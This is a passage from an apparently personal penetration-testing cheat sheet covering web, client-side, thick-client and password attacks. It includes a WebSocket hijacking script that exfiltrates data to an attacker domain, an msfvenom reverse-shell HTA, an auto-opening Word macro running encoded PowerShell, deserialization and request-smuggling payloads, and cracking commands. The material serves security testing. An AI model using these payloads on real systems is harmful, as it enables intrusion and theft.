| Local file-path manipulation     | FileReader.readAsText()    |
| Client-side SQL injection        | ExecuteSql()               |
| HTML5-storage manipulation       | sessionStorage.setItem()   |
| Client-side XPath injection      | document.evaluate()        |
| Client-side JSON injection       | JSON.parse()               |
| DOM-data manipulation            | someElement.setAttribute() |
| Denial of service                | RegExp()                   |


### <ins>WebSockets</ins>

Any web security vulnerability might arise in relation to WebSockets:
- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection;
- Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques;
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

**Cross-site WebSocket hijacking (CSRF missing)**
```HTML
<script>
  websocket = new WebSocket('wss://websocket-URL');
  websocket.onopen = start;
  websocket.onmessage = handleReply;
  function start(event) {
    websocket.send("READY");
  }
  function handleReply(event) {
    fetch('https://your-domain/?'+event.data, {mode: 'no-cors'});
  }
</script>
```


### <ins>Insecure deserialization</ins>

How to spot Insecure deserialization
- PHP example
  `O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
- Java objects always begin with the same bytes 
  - Hex `ac` `ed`
  - Base64 `rO0`

**Ysoserial**

Because of `Runtime.exec()`, ysoserial doesn't work well with multiple commands. After some research, I found a way to run multiple sys commands anyway, by using `sh -c $@|sh . echo ` before the multiple commands that we need to run. Here I needed to run the command `host` and `whoami`:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sh -c $@|sh . echo host $(whoami).<MY-'RATOR-ID>.burpcollaborator.net' | gzip | base64
```

[PHPGGC](https://github.com/ambionics/phpggc) is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically.

**Burp extensions**
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Java Serialized Payloads](https://portswigger.net/bappstore/bc737909a5d742eab91544705c14d34f)
- [GadgetProbe](https://portswigger.net/bappstore/e20cad259d73403bba5ac4e393a8583f)
- [Freddy, Deserialization Bug Finder](https://portswigger.net/bappstore/ae1cce0c6d6c47528b4af35faebc3ab3)
- [PHP Object Injection Check](https://portswigger.net/bappstore/24dab228311049d89a27a4d721e17ef7)


### <ins>Server-side template injection</ins>

- Try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`. To identify the template engine submit invalid syntax to cause an error message.
- The next step is look for the documentation to see how you can exploit the vulnerable endpoints and known vulnerabilities/exploits.
- Use payloads like these
  ```
  {{7*7}}[[3*3]]
  {{7*7}}
  {{7*'7'}}
  <%= 7 * 7 %>
  ${7*7}
  ${{7*7}}
  @(7+7)
  #{7*7}
  #{ 7 * 7 }
  ```


### <ins>Web cache poisoning</ins>

**Constructing a web cache poisoning attack**
 1. Identify and evaluate unkeyed inputs
 2. Elicit a harmful response from the back-end server
 3. Get the response cached

**Cache key flaws**
Many websites and CDNs perform various transformations on keyed components when they are saved in the cache key:
- Excluding the query string
- Filtering out specific query parameters
- Normalizing input in keyed components

**Cache probing methodology**<br/>
 1. Identify a suitable cache oracle
    - Simply a page or endpoint that provides feedback about the cache's behavior. This feedback could take various forms, such as: An HTTP header that explicitly tells you whether you got a cache hit, Observable changes to dynamic content, Distinct response times
 2. Probe key handling
    - Is anything being excluded from a keyed component when it is added to the cache key? Common examples are excluding specific query parameters, or even the entire query string, and removing the port from the Host header.
 3. Identify an exploitable gadget
    - These techniques enable you to exploit a number of unclassified vulnerabilities that are often dismissed as "unexploitable" and left unpatched.


### <ins>HTTP Host header attacks</ins>

- "If someone sends a cookie called '0', automattic.com responds with a list of all 152 cookies supported by the application:
curl -v -H 'Cookie: 0=1' https://automattic.com/?cb=123 | fgrep Cookie" [[Reference](https://hackerone.com/reports/310105)];
- Carriage Return Line Feed (CRLF) injection: "When you find response header injection, you can probably do better than mere XSS or open-redir. Try injecting a short Content-Length header to cause a reverse desync and exploit random live users." [[Reference](https://twitter.com/albinowax/status/1412778191119396864)]


### <ins>HTTP request smuggling</ins>

Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends:
- Content-Length
  ```HTTP
  POST /search HTTP/1.1
  Host: normal-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  q=smuggling
  ```
- Transfer-Encoding
  ```HTTP
  POST /search HTTP/1.1
  Host: normal-website.com
  Content-Type: application/x-www-form-urlencoded
  Transfer-Encoding: chunked
  b
  q=smuggling
  0
  ```
  
Example
```HTTP
POST / HTTP/1.1
Host: smuggle-vulnerable.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Result: GPOST request
- Some servers do not support the Transfer-Encoding header in requests;
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.

Ways to obfuscate the Transfer-Encoding header
- `Transfer-Encoding: xchunked`
- `Transfer-Encoding : chunked`
- `Transfer-Encoding: chunked`
- `Transfer-Encoding: x`
- `Transfer-Encoding:[tab]chunked`
- `[space]Transfer-Encoding: chunked`
- `X: X[\n]Transfer-Encoding: chunked`
- ```
  Transfer-Encoding
  : chunked
  ```

Confirming CL.TE vulnerabilities using differential responses
```HTTP
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x


```

Result
```HTTP
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Impact
- Bypass front-end security controls
- Revealing front-end request rewriting
- Capturing other users' requests
- Using HTTP request smuggling to exploit reflected XSS
- Turn an on-site redirect into an open redirect<br/>
  Example of 301 in Apache and IIS web servers
  ```HTTP
  GET /home HTTP/1.1
  Host: normal-website.com
  HTTP/1.1 301 Moved Permanently
  Location: https://normal-website.com/home/
  ```
  Vulnerable request
  ```HTTP
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 54
  Transfer-Encoding: chunked
  
  0
  
  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: X
  ```
  Result
  ```HTTP
  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: XGET /scripts/include.js HTTP/1.1
  Host: vulnerable-website.com
  HTTP/1.1 301 Moved Permanently
  Location: https://attacker-website.com/home/
  ```
- Perform web cache poisoning
- Perform web cache deception

**Resource**
- [HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)


### <ins>JWT Attacks</ins>

A JWT consists of a `header`, a `payload`, and a `signature`. Each part is separated by a dot.<br/>
 
Common attacks
- Accepting tokens with no signature
- Brute-forcing secret keys using [hashcat](https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#how_do_i_install_hashcat)
  - You need a valid JWT and a [wordlist](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)
  - `hashcat -a 0 -m 16500 <jwt> <wordlist>`
  - If any of the signatures match, hashcat will give you an output like this `<jwt>:<identified-secret>` along with other details
  - Once identified the secret key, you can use it to generate a valid signature for any JWT header and payload that you like. See [Signing JWTs](https://portswigger.net/web-security/jwt/working-with-jwts-in-burp-suite#signing-jwts)
- Injecting self-signed JWTs via the `jwk`, `jku` or `kid` parameter
- Change Content-Type in `cty` to achieve XXE and deserialization attacks
- `x5c` (X.509 Certificate Chain) can lead to [CVE-2017-2800](https://talosintelligence.com/vulnerability_reports/TALOS-2017-0293) and [CVE-2018-2633](https://mbechler.github.io/2018/01/20/Java-CVE-2018-2633/)
- [JWT algorithm confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)

**Resources**
- [{JWT}.{Attack}.Playbook](https://github.com/ticarpi/jwt_tool/wiki)
  - [Checklist](https://github.com/ticarpi/jwt_tool/wiki/Attack-Methodology)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)


### <ins>OAuth authentication</ins>

How OAuth 2.0 works:
- `Client application` The website or web application that wants to access the user's data;
- `Resource owner` The user whose data the client application wants to access;
- `OAuth service provider` The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

**[OAuth flow](https://portswigger.net/web-security/oauth/grant-types)**



Following standard endpoints:
- `/.well-known/oauth-authorization-server`
- `/.well-known/openid-configuration`

Vulnerabilities in the client application
- Improper implementation of the implicit grant type
- Flawed CSRF protection

Vulnerabilities in the OAuth service
- Leaking authorization codes and access tokens
- Flawed scope validation
- Unverified user registration


### <ins>Abusing S3 Bucket Permissions</ins>

Target example: `http://[name_of_bucket].s3.amazonaws.com`

**Read Permission**

- `aws s3 ls s3://[name_of_bucket]  --no-sign-request`
- `aws s3 ls s3://pyx-pkgs --recursive --human-readable --summarize`

**Write Permission**

- `aws s3 cp localfile s3://[name_of_bucket]/test_file.txt –-no-sign-request`

**READ_ACP**

- `aws s3api get-bucket-acl --bucket [bucketname] --no-sign`
- `aws s3api get-object-acl --bucket [bucketname] --key index.html --no-sign-request`

**WRITE_ACP**

- `aws s3api put-bucket-acl --bucket [bucketname] [ACLPERMISSIONS] --no-sign-request`
- `aws s3api put-object-acl --bucket [bucketname] --key file.txt [ACLPERMISSIONS] --no-sign-request`

**Tools**
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- [AWS CLI](https://aws.amazon.com/it/cli/)
- [S3Scanner](https://github.com/sa7mon/S3Scanner) A tool to find open S3 buckets and dump their contents
- [Cloud - AWS Pentest](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Cloud%20-%20AWS%20Pentest.md)
- [s3enum](https://github.com/koenrh/s3enum)
- To find secrets, you can use [trufflehog](https://github.com/trufflesecurity/trufflehog).

**Resources**
- https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/
- https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_examples_s3_rw-bucket.html


### <ins>Google Cloud Storage bucket</ins>

**Tools**
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- https://github.com/RhinoSecurityLabs/GCPBucketBrute

**Resources**
- https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/
- https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/


### <ins>GraphQL</ins>

To analyze the schema: [vangoncharov.github.io/graphql-voyager/](https://ivangoncharov.github.io/graphql-voyager/) or [InQL](https://github.com/doyensec/inql) for Burp Suite.

**GraphQL Introspection query**

```JSON
{"query": "{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

```JSON
{query: __schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

```JSON
{"operationName":"IntrospectionQuery","variables":{},"query":"query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n"}
```


### <ins>WordPress</ins>

- Information Disclosure [high]: `/_wpeprivate/config.json`
- Data exposure:
  - `/wp-json/wp/v2/users/`
  - `/wp-json/th/v1/user_generation`
  - `/?rest_route=/wp/v2/users`
- xmlrpc.php enabled, [reference](https://hackerone.com/reports/138869). Send a post request to this endpoint with a body like this:
  ```xml
  <?xml version="1.0" encoding="utf-8"?>
  <methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
  </methodCall>
  ```
- Use [Nuclei](https://github.com/projectdiscovery/nuclei) to detect WordPress websites from a list of targets with: `nuclei -l subdomains.txt -t %USERPROFILE%/nuclei-templates/technologies/wordpress-detect.yaml`
- Scan with WPScan [github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan) with: `wpscan --url <domain> --api-token <your-api-token>`
- Nuclei templates `%USERPROFILE%\nuclei-templates\vulnerabilities\wordpress\advanced-access-manager-lfi.yaml`

**Resources**
- https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/WordPress.md
- https://www.rcesecurity.com/2022/07/WordPress-Transposh-Exploiting-a-Blind-SQL-Injection-via-XSS/
- [WordPress Checklist](https://github.com/pentesterzone/pentest-checklists/blob/master/CMS/WordPress-Checklist.md)


### <ins>IIS - Internet Information Services</ins>
- Check if `trace.axd` is enabled
- Search for
  ```
  Views/web.config
  bin/WebApplication1.dll
  System.Web.Mvc.dll
  System.Web.Mvc.Ajax.dll
  System.Web.Mvc.Html.dll
  System.Web.Optimization.dll
  System.Web.Routing.dll
  ```
- [Other common files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#common-files)

**Resources**
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services
- Wordlist [iisfinal.txt](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#iis-discovery-bruteforce)


### <ins>Lotus Domino</ins>

- Find Lotus Domino with nuclei: `%USERPROFILE%\nuclei-templates\technologies\lotus-domino-version.yaml`
- Exploit DB: [Lotus-Domino](https://www.exploit-db.com/search?q=Lotus+Domino)
- Fuzzing list: [SecLists/LotusNotes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/LotusNotes.fuzz.txt)


### <ins>Git source code exposure</ins>

Once you have the source code, look for the secrets within the files. To find secrets, you can use [trufflehog](https://github.com/trufflesecurity/trufflehog).

**Other tools**
- [DotGit](https://github.com/davtur19/DotGit) find if a website has `.git` exposed
- nuclei template `%USERPROFILE%\nuclei-templates\exposures\configs\git-config.yaml`
- [GitDumper from GitTools](https://github.com/internetwache/GitTools)


### <ins>Subdomain takeover</ins>

**Tools**
- [Can I take over XYZ?](https://github.com/EdOverflow/can-i-take-over-xyz)
- nuclei template `%USERPROFILE%\nuclei-templates\takeovers`


### <ins>4** Bypass</ins>
- [byp4xx](https://github.com/lobuhi/byp4xx), s/o to [m0pam](https://twitter.com/m0pam) for the tip
- Search for subdomain with subfinder. Httpx filters subdomains with a 403 response and prints their cname. Test the cname for a bypass
  `subfinder -d atg.se — silent | httpx -sc -mc 403 -cname`, s/o to [drak3hft7](https://twitter.com/drak3hft7) for the tip
- [403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122) Burp extension, test 403 bypasses on the run
- Replace `HTTP/n` with `HTTP/1.1`, `HTTP/2` or `HTTP/3`
- Change the request from `GET` to `POST` or viceversa


### <ins>Application level Denial of Service</ins>

- If the application gives the possibility to download data, try to download too much data
  - If there are restrictions, try to bypass
- In file uploads, try to upload huge files
- In chat section, try to send big messages and see how the application behaves
- [Regular expression Denial of Service - ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
  - search for [`RegExp()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp)
- Long Password DoS Attack (Note: the value of password is hashed and then stored in Databases)
  - Check for length restriction and play with it
  - If there is no restriction, test until the application slows down
  - [password.txt](https://raw.githubusercontent.com/KathanP19/HowToHunt/master/Application_Level_DoS/Password.txt)
- Long string DoS
- DoS against a victim
  - Sending a reset link might disable an user's account, spam to prevent the user from accessing their account
  - Multiple wrong passwords might disable an user's account


## Client-Side Attacks

### <ins>Client Information Gathering</ins>

**Passive Client Information Gathering**
- Search with Google, social media and forum websites
- Search for IPs and other sensible information

**Active Client Information Gathering**
- Make direct contact with the target machine or its users
  - Interaction with the target: Social engineering, require to click on a link, open an email, run an attachment, or open a document
  - [Social-Engineer Toolkit (SET)](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)
- Client Fingerprinting
  - [Fingerprintjs2](https://github.com/fingerprintjs/fingerprintjs)
    - Change permissions on the `fp` directory `sudo chown www-data:www-data fp` to make `/fp/js.php` work
  - [Parse User Agents](https://developers.whatismybrowser.com/)

### <ins>HTML applications</ins>

If a file is created with a `.hta` extension rather than a `.html` extension, Internet Explorer will automatically recognize it as an HTML Application and provide the option to run it using the mshta.exe application (still useful since many corporations rely on Internet Explorer).

**PoC.hta** leveraging ActiveXObjects
```HTML
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</head>
	<body>
		<script>
			self.close();
		</script>
	</body>
</html>
```

**Create a better payload with [msfvenom from the Metasploit framework]([https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework))**<br/>
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta

In evil.hta, the code will find the following command ::> `powershell.exe -nop -w hidden -e aQBmCgAWBJAG4AdAQAHQAcg...`

-nop: NoProfile
-w:   WindowStyle hidden
-e:   EncodedCommand
```

### <ins>Microsoft Office</ins>

**Microsoft Word Macro**: To exploit Microsoft Office we need to creare a doc in `.docm` or `.doc` format and use macros. An example of the creation of a macro to run a reverse shell is the following.

1. Since VBA has a 255-character limit for literal strings, we have to split the command into multiple lines. You can do it with the following python script:
   ```python
   str = "powershell.exe -nop -w hidden -e H4sIAAb/EF0CA7VWa2+bSBT9nEj5D6iyBCjE..."
   n = 50
   for i in range(0, len(str), n):
   	print ("Str = Str + " + '"' + str[i:i+n] + '"')
   ```
2. This will be the final result:
   ```VBA
   Sub AutoOpen()
   	MyMacro
   End Sub
   
   Sub Document_Open()
   	MyMacro
   End Sub
   
   Sub MyMacro()
   	Dim Str As String
   	
   	Str = Str + "powershell.exe -nop -w hidden -e H4sIAAb/EF0CA7VWa"
   	Str = Str + "2+bSBT9nEj5D6iyBCjExombNpEqLdgmhhrHBD9iu9YKwwBTj4H"
   	Str = Str + "C4Jh0+9/3jg1pqqS77UqLbDGP+zz3zFz8PHIpjiMuu+1xX0+Oj"
   	Str = Str + "4ZO6mw4oRa/u5C4GnZvxaMjWK49GhfcB05YKEnSiTcOjpbX1+0"
   	Str = Str + "8TVFED/P6DaJKlqHNimCUCSL3FzcNUYrOblefkUu5r1ztz/oNi"
       	...
   	Str = Str + "aNrT16pQqhMQu61/7ZgO989DRWIMdw/Di/NWRyD0Jit8bW7V0f"
   	Str = Str + "T2HIOHYs1NZ76MooKEk7y5kGfqUvGvJkOWvJ9aOk0LYm5JYnzt"
   	Str = Str + "AUxkne+Miuwtq9HL2vyJW3j8hvLx/Q+z72j/s/hKKslRm/GL9x"
   	Str = Str + "4XfwvR3U586mIKgDRcoQYdG/joCJT2efexAVaD2fvmwT9XbnJ4"
   	Str = Str + "N4BPo5PhvyjwHqBILAAA="
   
   	CreateObject("Wscript.Shell").Run Str
   End Sub
   ```

**Object Linking and Embedding**: another option is to abuse Dynamic Data Exchange (DDE) to execute arbitrary applications from within Office documents ([patched since December of 2017](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/ADV170021))

1. Create a batch script to run a reverse shell
   ```batch
   START powershell.exe -nop -w hidden -e H4sIAAb/EF0CA7VWa2+bSBT9nEj5D6iyBCjE...
   ```
2. Open Microsoft Word > Create a new document > Navigate to the Insert ribbon > Click the Object menu
3. Choose "Create from File" tab and select the newly-created batch script
4. Change the appearance of the batch file

**Evading Protected View**: In exactly the same way as Word and Excel, Microsoft Publisher permits embedded objects and ultimately code execution, but it will not enable Protected View for documents that are distributed over the Internet.


## Thick client vulnerabilities

### <ins>DLL Hijacking</ins>

**Tool**
- [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) to see which DLLs are missing for an exe and do DLL Hijacking

Using Process Monitor, add these the filters to find missing dlls.<br/><br/>
  

After that, insert the dll in the position of the missing ones with the same name. An example of a dll:

```c++
#include <windows.h>

BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL,
            "success!!",
            "pwned",
            MB_ICONERROR | MB_OK
        );
        break;
    }

    return TRUE;
}
```

**Resources**
- [hijacklibs.net](https://hijacklibs.net/)
- [Save the Environment (Variable)](https://www.wietzebeukema.nl/blog/save-the-environment-variables)
- [Spartacus DLL Hijacking](https://github.com/Accenture/Spartacus)


### <ins>Insecure application design</ins>

The application design is based on a two-tier architecture. In particular, the thick client application installed on the workstation communicates directly with a backend DBMS without the use of an application server.

The best option, from a security perspective, is designing and implementing a three-tier architecture in which the thick client connects with an intermediary layer (an application server), which in turn communicates with the database. A secure channel must be used for all communications, with only secure protocols (such TLS, HTTPS, etc.), and preferebli with Certificate Pinning.

If this is not possible, it is desirable to provide read-only users and read/write users distinct privileges at the DBMS layer. This would stop vertical privilege escalation even if a read-only user were to access the database directly and try to edit the data.


### <ins>Weak Hashing Algorithms</ins>

Sensitive data exposure, key leakage, broken authentication, insecure sessions, and spoofing attacks can all be caused by improper application of encryption methods. Some hashing or encryption techniques, such MD5 and RC4, are known to be insecure and are not advised for use.

When dealing with hashing algorithms, the strongest algorithm available should be used (e.g., SHA-512 or at least SHA-256). However, it is always crucial to take into account the precise context in which the hashing algorithm must be used. For instance, it is recommended to utilize contemporary hashing algorithms that have been created especially for securely saving passwords when managing passwords. This indicates that they should be slow (as opposed to fast algorithms like MD5 and SHA-1), and that can be configured by changing the work factor (e.g., PBKDF2 or Bcrypt)

If not configured correctly, the encryption can be not sufficiently secure. An example with AES, an algorithm for symmetric encryption:
- Cipher-Block-Chaining (CBC) is no longer considered safe when verifiable padding has been applied without first ensuring the integrity of the ciphertext, except for very specific circumstances. If implemented, it can weakens AES encryption.


### <ins>Cleartext secrets in memory</ins>

The memory analysis of an application, done when the thick client process is running, can highlight the presence of secrets in cleartext and that can be therefore extracted by any user having access to the machine where the application is hosted.

**Resource**
- [Process Hacker](https://processhacker.sourceforge.io/) It helps to dump the exe memory and see what sensitive data is there


### <ins>Hardcoded secrets</ins>

Sometimes, the thick client application's source code is not obfuscated, therefore a hostile user may decompile it and easily comprehend every functionality of the application. It's also possible that more can be found, like credentials and api keys.

**Resources**
- [VB Decompiler](https://www.vb-decompiler.org/products.htm) decompile a VB application
- [ILSpy](https://github.com/icsharpcode/ILSpy) | [dnSpy](https://github.com/dnSpy/dnSpy) .NET decompilers


### <ins>Unsigned binaries</ins>

If an application executable, and/or the imported DLLs, has not been digitally signed, it's possible replace it with a tampered version without the user noticing.

**Resource**
- [Sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck) check the signature of an executable


### <ins>Lack of verification of the server certificate</ins>

Due to the fact that the client does not verify the TLS certificate presented by the back-end, it's possible to intercept also HTTPS communications managed by the thick client application.

Without effective certificate control, an attacker who is capable of conducting a Man in the Middle attack can provide a self-signed certificate and the application will accept it, invalidating the protection provided by the TLS connection.


### <ins>Insecure SSL/TLS configuration</ins>

During the SSL/TLS negotiation, SSL/TLS connections may be set up to offer outdated protocols and cipher suites that are susceptible to known security flaws. The data transmitted between the server and the client could potentially be read or modified in this case if an attacker is able to intercept the communication.

**Resource**
- [testssl.sh](https://testssl.sh/) useful for checking outdated ciphers & more


### <ins>Remote Code Execution via Citrix Escape</ins>

If Citrix is present and you have access to it, there are multiple ways you can achieve Remote Code Execution:
- Try to upload a PowerShell
- Search for a functionality that opens a dialog box. Insert the path for `cmd` and `PowerShell` and see if they pop-up
- In a dialog box, see if the right-click is allowed. Play with the functionality to achieve RCE, like creating a `.bat` and running it or upload files
- Upload [Process Hacker](https://processhacker.sourceforge.io/) and see if you find [Cleartext secrets in memory](#cleartext-secrets-in-memory)

**Resources**
- [PowerShell](https://github.com/PowerShell/Powershell)
- [Two RCEs are better than one: write-up of an interesting lateral movement](https://medium.com/@seeu-inspace/two-rces-are-better-than-one-write-up-of-an-interesting-lateral-movement-66a52d42e075)


### <ins>Direct database access</ins>

- If it's found that standard users have direct access to the database, there is the possibility for users to read and write data that is not otherwise accessible through the client application.
- If the SQL server requires a Windows User access, use the command `runas /user:localadmin <SQL-SERVER-MANAGEMENT-STUDIO>`
- Try access with the account `sa:RPSsql12345`
- Intercept the requests and see if there is an [Insecure application design](#insecure-application-design). In that case, it might be possible to perform a Direct database access, SQLi or Remote Code Execution

**Resources**
- [Echo Mirage](https://resources.infosecinstitute.com/topic/echo-mirage-walkthrough/)
- [Wireshark](https://www.wireshark.org/)


### <ins>Insecure Windows Service permissions</ins>

Windows service executable might be configured with insecure permissions. Services configured to use an executable with weak permissions are vulnerable to privilege escalation attacks.

Unprivileged users have the ability to change or replace the executable with arbitrary code, which would then be run the following time the service is launched. This can lead to privilege escalation depending on the user the service is running as.


### <ins>Code injection</ins>
- Check for classic HTML injections and [XSS](cross-site-scripting-xss)
  - Try to use a `SSID` as a vector for an XSS with a payload like `"/>`
- Check if `<webview>` works. If it does, it's might be possible to achieve a LFI with a payload like this `<webview src="file:///etc/passwd"></webview>`. [[Reference](https://medium.com/@renwa/facebook-messenger-desktop-app-arbitrary-file-read-db2374550f6d)]


### <ins>Windows persistence</ins>

**Resources**
- [persistence-info.github.io](https://persistence-info.github.io/)
- [PayloadsAllTheThings/Windows - Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md)

## System Attacks

### <ins>Password Attacks</ins>

[How Secure Is My Password?](https://howsecureismypassword.net/)

#### <ins>Wordlists</ins>
- [SecLists](https://github.com/danielmiessler/SecLists)
- [wordlists.assetnote.io](https://wordlists.assetnote.io/)
- [content_discovery_all.txt](https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10)
- [OneListForAll](https://github.com/six2dez/OneListForAll)
- [wordlistgen](https://github.com/ameenmaali/wordlistgen)
- [Scavenger](https://github.com/0xDexter0us/Scavenger)
- [cewl](https://digi.ninja/projects/cewl.php)
  - `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

**Brute Force Wordlists**

[Crunch](https://sourceforge.net/projects/crunch-wordlist/), see [crunch | Kali Linux Tools](https://www.kali.org/tools/crunch/). 

| Placeholder |  Character translation             |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Upper case alpha characters        |
| %           | Numeric characters                 |
| ^           | Special characters including space |

Examples of usage:
- Structure of the passwords of the target: `[Capital Letter] [2 x lower case letters] [2 x special chars] [3 x numeric]`. Run `crunch 8 8 -t ,@@^^%%%`
- Passwords between four and six characters in length, containing only the characters 0-9 and A-F: `crunch 4 6 0123456789ABCDEF -o crunch.txt`
- Use a pre-defined character-set with `-f` and include `mixalpha` to  include all lower and upper case letters `crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt`

#### <ins>Password Cracking</ins>

**Tools**
- [John the Ripper](https://www.openwall.com/john/)
- [Hashcat](https://hashcat.net/hashcat/)
- [Ophcrack](https://ophcrack.sourceforge.io/)
  
#### John the Ripper
- Note for Linux-based systems: first use the unshadow utility to combine the passwd and shadow files from the compromised system `unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`
- `john -incremental -users:<user list> <file to crack>` pure brute force attack, you can use `-user:<username>` to target a specific user
- `john --show crackme` display the passwords recovered
- `john --wordlist=<custom wordlist file> -rules <file to crack>` dictionary attack, use `-wordlist` instead of `--wordlist=<custom wordlist file>` to use the john default wordlist
- `john hash.txt --format=NT` simple attack to attack NT hashes
- `john --rules --wordlist=<custom wordlist file> hash.txt --format=NT` using password mutation rules
- `john --rules --wordlist=<custom wordlist file> unshadowed.txt`
- To distribute the load and speed up the cracking process (for multi core CPUs)
  1. Use the options `--fork=8` and `--node=1-8/16` on the first machine
  2. Use the options `--fork=8` and `--node=9-16/16` on the first machine

#### Ophcrack

1. Install the tables
2. Load a password file with `Load`
3. Click on the `Crack` button


#### <ins>Common Network Service Attack Methods</ins>

**Tools**
